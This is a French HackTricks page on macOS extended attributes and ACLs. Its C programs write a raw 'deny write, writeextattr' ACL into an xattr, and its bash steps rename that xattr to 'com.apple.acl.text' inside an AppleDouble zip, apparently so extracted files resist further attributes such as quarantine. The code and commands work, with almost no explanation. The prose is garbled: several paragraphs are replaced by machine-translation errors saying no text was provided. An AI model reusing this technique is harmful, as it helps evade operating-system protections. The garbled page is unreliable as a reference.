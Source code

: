 # macOS xattr-acls extra stuff

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
./get_acls test
ACL for test:
!#acl 1
group:ABCDEFAB-CDEF-ABCD-EFAB-CDEF0000000C:everyone:12:deny:write,writeattr,writeextattr,writesecurity,chown

ACL in hex: \x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a
```
Détails non fournis pour la traduction. Veuillez fournir le contenu textuel à traduire.
```c
// gcc -o get_acls get_acls
#include <stdio.h>
#include <stdlib.h>
#include <sys/acl.h>

int main(int argc, char *argv[]) {
if (argc != 2) {
fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
return 1;
}

const char *filepath = argv[1];
acl_t acl = acl_get_file(filepath, ACL_TYPE_EXTENDED);
if (acl == NULL) {
perror("acl_get_file");
return 1;
}

char *acl_text = acl_to_text(acl, NULL);
if (acl_text == NULL) {
perror("acl_to_text");
acl_free(acl);
return 1;
}

printf("ACL for %s:\n%s\n", filepath, acl_text);

// Convert acl_text to hexadecimal and print it
printf("ACL in hex: ");
for (char *c = acl_text; *c != '\0'; c++) {
printf("\\x%02x", (unsigned char)*c);
}
printf("\n");

acl_free(acl);
acl_free(acl_text);
return 0;
}
```
Since you haven't provided any English text to translate, I'm unable to proceed with a translation. Please provide the specific content you want translated into French, and I'll be happy to assist you.
```bash
# Lets add the xattr com.apple.xxx.xxxx with the acls
mkdir start
mkdir start/protected
./set_xattr start/protected
echo something > start/protected/something
```
Détails non fournis pour la traduction. Veuillez fournir le contenu spécifique à traduire.
```c
// gcc -o set_xattr set_xattr.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/xattr.h>
#include <sys/acl.h>


void print_xattrs(const char *filepath) {
ssize_t buflen = listxattr(filepath, NULL, 0, XATTR_NOFOLLOW);
if (buflen < 0) {
perror("listxattr");
return;
}

char *buf = malloc(buflen);
if (buf == NULL) {
perror("malloc");
return;
}

buflen = listxattr(filepath, buf, buflen, XATTR_NOFOLLOW);
if (buflen < 0) {
perror("listxattr");
free(buf);
return;
}

printf("All current extended attributes for %s:\n", filepath);
for (char *name = buf; name < buf + buflen; name += strlen(name) + 1) {
printf("%s: ", name);
ssize_t valuelen = getxattr(filepath, name, NULL, 0, 0, XATTR_NOFOLLOW);
if (valuelen < 0) {
perror("getxattr");
continue;
}

char *value = malloc(valuelen + 1);
if (value == NULL) {
perror("malloc");
continue;
}

valuelen = getxattr(filepath, name, value, valuelen, 0, XATTR_NOFOLLOW);
if (valuelen < 0) {
perror("getxattr");
free(value);
continue;
}

value[valuelen] = '\0';  // Null-terminate the value
printf("%s\n", value);
free(value);
}

free(buf);
}


int main(int argc, char *argv[]) {
if (argc != 2) {
fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
return 1;
}

const char *hex = "\x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a";
const char *filepath = argv[1];

int result = setxattr(filepath, "com.apple.xxx.xxxx", hex, strlen(hex), 0, 0);
if (result == 0) {
printf("Extended attribute set successfully.\n\n");
} else {
perror("setxattr");
return 1;
}

print_xattrs(filepath);

return 0;
}
```
</details>

{% code overflow="wrap" %}
```bash
# Create appledoublefile with the xattr entitlement
ditto -c -k start protected.zip
rm -rf start
# extract the files
unzip protected.zip
# Replace the name of the xattr here (if you put it before ditto would have destroyed it)
python3 -c "with open('._protected', 'rb+') as f: content = f.read().replace(b'com.apple.xxx.xxxx', b'com.apple.acl.text'); f.seek(0); f.write(content); f.truncate()"
# zip everything back together
rm -rf protected.zip
zip -r protected.zip protected ._protected
rm -rf protected
rm ._*
```
There is no English text provided to translate into French. Please provide the relevant English text that you would like to have translated.
```bash
# Check if it worked
ditto -x -k --rsrc protected.zip .
xattr -l protected
```
<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
